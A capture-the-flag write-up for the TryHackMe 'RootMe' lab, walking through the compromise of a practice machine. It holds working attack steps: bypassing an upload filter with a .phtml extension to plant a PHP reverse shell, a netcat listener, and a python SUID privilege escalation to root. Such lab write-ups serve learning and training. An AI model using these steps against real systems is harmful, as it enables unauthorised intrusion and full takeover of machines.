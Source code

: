 # **Try Hack Me: RootMe Attack Box**

A ctf for beginners, can you root me?

Date: 22/11/2021:2135
Completed by: XeaoZ

## Task 1

1. **Deploy the machine**
	- Deployed the machine with the IP 10.10.117.45.

## Task 2

1. **Scan the machine, how many ports are open**
	- Scanned the machine using `nmap -sV IP`
3. **What version of Apache is running**
	-	Result of the previous search `Apache httpd 2.4.29`
5. **What service is running on port 22**
	-	Port 22 is running SSH.
7. **Find directories on the web server using GoBuster tool.**
	-	Decided to use `dirb http://IP`
9. **What is the hidden directory**
	-	Hidden directory was /panel/

## Task 3

1. **Find a form to upload and get a reverse shell, and find the flag.**
	-	Used Python reverse shell ([http://pentestmonkey.net/tools/php-reverse-shell](url))
	-	Opened a lisner port `nc -lvnp 4444`
	-	Changed extension of the file to .phtml to avoid the upload not accepting .php files.
	-	This gave me reverse shell. 
	-	Used following code after gaining shell: `python -c 'import pty; pty.spawn("/bin/bash")' OR /usr/bin/script -qc /bin/bash /dev/null`

## Task 4

1. **Search for files with SUID permission, which file is weird?**
	-	Used the following command to search for all SUID permissions: `find / -perm /4000  2>/dev/null`
	-	WWW/bin/python	
2. **Find a form to escalate your privileges.**
	-	[https://gtfobins.github.io/](url)
	-	If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. 
	-	`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
	-	Root gained.
3. **root.txt flag**
	-	`cat root/root.txt`
	- Hidden Flag
